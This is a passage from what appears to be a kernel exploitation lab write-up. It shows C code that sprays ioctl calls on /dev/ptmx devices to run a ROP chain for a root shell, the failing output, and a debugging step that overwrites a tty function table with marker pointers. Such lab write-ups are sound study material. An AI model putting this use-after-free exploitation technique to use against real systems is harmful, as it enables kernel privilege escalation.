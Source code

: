 ### Executing our exploit

#### 11. call the `ioctl()` on our `/dev/ptmx` devices.

```c
// spamming ioctls for shell
printf("[+] Spamming ioctls to execute ROP chain...\n");
for (int i = 0; i < pty_count; i++) {
      int result = ioctl(ptys[i], rop_addr, rop_addr); 
      if (result < 0) {
          printf("[-] Failed to execute ROP chain on PTY %d: %s\n", i, strerror(errno));
          continue;
      }
printf("[+] Executed ROP chain on PTY %d\n", i);
```

The result? We can confirm this should work given valid ROP gadgets if our RIP changes to what we point it to and kernel crashes.

```sh
[+] Spamming ioctls to execute ROP chain...
[-] Failed to execute ROP chain on PTY 0: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 1: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 2: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 3: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 4: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 5: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 6: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 7: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 8: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 9: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 10: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 11: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 12: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 13: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 14: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 15: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 16: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 17: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 18: Inappropriate ioctl for device
[-] Failed to execute ROP chain on PTY 19: Inappropriate ioctl for device
[+] ROP chain executed, should have spawned shell!
```

Well, I spent quite a lot of time trying to debug what was happening and going wrong so I ended up trying setting all the pointers in the function table to `0xdeadbeefdeadbe00 +i` as we know from [h0mbre's](https://h0mbre.github.io/PAWNYABLE_UAF_Walkthrough/) writeup that certain functions are called at one or the other point.

```c
for(int i = 0; i < 12; i++) {
    ops[i] = 0xdeadbeefdeadbe00 + i;  // ← This is causing the crash!
}
```
